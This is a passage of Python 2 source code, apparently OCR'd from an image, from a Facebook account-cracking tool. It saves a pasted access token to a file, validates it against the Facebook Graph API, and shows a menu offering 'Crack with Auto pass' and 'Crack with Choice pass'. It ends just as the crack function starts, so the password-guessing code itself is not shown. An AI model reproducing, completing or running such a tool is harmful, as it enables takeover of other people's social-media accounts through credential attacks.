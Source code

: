         token = raw_input        ("\x1b[1;93m Paste token :\x1b[1;92m ")
        sav = open("access_token.txt", "w")
        sav.write(token)
        sav.close()
        login()
def menu():
    os.system("clear")
    try:
        token = open("access_token.txt", "r").read()
    except(KeyError , IOError):
        login()
    try:
        r = requests.get("https://graph.facebook.com/me?access_token="+token)
        q = json.loads(r.text)
        name = q["name"]
    except(KeyError):
        print(logo)
        print("")
        print("\tLogged in token has expired")
        os.system("rm -rf access_token.txt")
        print("")
        time.sleep(1)
        login()
    os.system("clear")
    print(logo)
    print("")
    print("\x1b[1;92m            WELLCOME : "+name)
    print("")
    print(47*"-")
    print("")
    print("\x1b[1;92m[1]\x1b[1;93m Crack with Auto pass\n")
    print("\x1b[1;92m[2]\x1b[1;93m Crack with Choice pass\n")
    print("\x1b[1;92m[3]\x1b[1;93m Back ")
    print(47*"\x1b[1;92m-")
    print("")
    menu_option()
def menu_option():
	select = raw_input("\033[1;92mChoose option: \033[0;93m")
	if select =="1":
		crack()
	elif select =="2":
		choice()
		
	else:
		print("")
		print("\tSelect valid option")
		print("")
		menu_option()
def crack():
	global token
	os.system("clear")
	try:
		token = open("access_token.txt","r").read()
	except IOError:
		print("")
		print("\tToken not found ")
		time.sleep(1)
		login_choice()
	os.system("clear")
	print(logo)
	print("")
	print("\t    \033[1;32mAUTO PASS CRACK\033[0;97m")
	print("")
	print(47*"\x1b[1;92m-")